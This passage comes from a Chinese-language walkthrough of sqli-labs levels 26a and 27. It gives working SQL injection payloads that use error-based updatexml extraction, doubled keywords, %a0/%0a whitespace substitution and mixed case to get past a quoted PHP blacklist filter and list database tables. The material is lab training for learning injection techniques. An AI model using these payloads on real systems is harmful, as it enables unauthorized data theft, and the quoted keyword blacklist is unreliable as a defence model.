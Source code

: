 `1'oorr(updatexml(0,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0))oorr'1'='1`

...

**这里用`%a0`也可以代替空格`1'oorr%a01=1;%00`**

### 26a Trick with comments

这题把`print_r(mysql_error());`给注释掉了，报错注入不好使了,就联合查询吧，用%a0代替空格

`-111')%a0union%a0select(1),(select(group_concat(schema_name))from(infoorrmation_schema.schemata)),(3)||('0`

`-111')%a0union%a0select(1),(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security')),(3)||('0`

...略

### 27 Trick with SELECT & UNION

select,union过滤了

```php
function blacklist($id)
{
    $id = preg_replace('/[\/\*]/', "", $id); //strip out /*
    $id = preg_replace('/[--]/', "", $id); //Strip out --.
    $id = preg_replace('/[#]/', "", $id); //Strip out #.
    $id = preg_replace('/[ +]/', "", $id); //Strip out spaces.
    $id = preg_replace('/select/m', "", $id); //Strip out spaces.
    $id = preg_replace('/[ +]/', "", $id); //Strip out spaces.
    $id = preg_replace('/union/s', "", $id); //Strip out union
    $id = preg_replace('/select/s', "", $id); //Strip out select
    $id = preg_replace('/UNION/s', "", $id); //Strip out UNION
    $id = preg_replace('/SELECT/s', "", $id); //Strip out SELECT
    $id = preg_replace('/Union/s', "", $id); //Strip out Union
    $id = preg_replace('/Select/s', "", $id); //Strip out select
    return $id;
}
```

注意这里select被替换了好几次，所以双写绕过的时候要多几次

比如`-111'%0auniounionn%0aselecsselectelectt%0a1,2,3||'`

这题我们不用双写，因为过滤对大小写的判断不严格

`-111'%0auNion%0aSeLECT%0a1,database(),3||'`

`-111'%0auNion%0aSeLECT%0a1,(seLect(group_concat(table_name))from(information_schema.tables)where(table_schema='security')),3||'`

...略

###  27 Trick with SELECT & UNION
